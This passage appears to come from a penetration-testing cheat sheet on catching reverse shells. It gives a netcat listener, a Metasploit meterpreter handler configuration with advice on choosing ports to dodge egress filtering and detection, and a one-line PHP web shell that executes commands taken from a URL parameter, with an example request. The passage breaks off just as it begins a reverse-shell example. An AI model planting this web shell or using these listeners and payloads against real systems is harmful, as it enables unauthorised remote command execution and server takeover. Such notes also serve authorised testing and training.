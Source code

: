 #### Listeners <a href="#listeners" id="listeners"></a>

Your attack machine needs to have a listener running to catch a reverse shell connection. Make sure you specify the IP address of your attack machine and use a port that doesn't already have a service listening. If you need to use `python SimpleHTTPServer` or similar to transfer exploits, make sure that isn't running on the same port.

**Netcat listener**

Using ports 80 or 443 will help you get around egress filtering:

Copy

```
nc -nlvp 443
```

**Meterpreter listener**

You may prefer a Meterpreter listener if you're connecting to a Windows machine and want to take advantage of commands like `getsystem`, or you want to use local Metasploit exploits once you've connected to the remote machine.

Avoid using port 4444 since that is widely recognized as a Metasploit port:

Copy

```
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_tcp # or whatever
payload => windows/meterpreter/reverse_tcp
msf exploit(handler) > set lhost [attack machine] # your IP address
lhost => [attack machine]
msf exploit(handler) > set lport 443
lport => 443
msf exploit(handler) > run
```

#### Simple PHP web shell <a href="#simple-php-web-shell" id="simple-php-web-shell"></a>

Assuming you are able to put a file on the web server or edit an existing one (e.g. CMS template) this is the simplest type of shell:

Copy

```
<?php echo shell_exec($_GET['cmd']); ?>
```

You can use it for system commands:

Copy

```
http://[host]/wordpress/index.php?cmd=id
```

You can also use it to create a reverse shell:
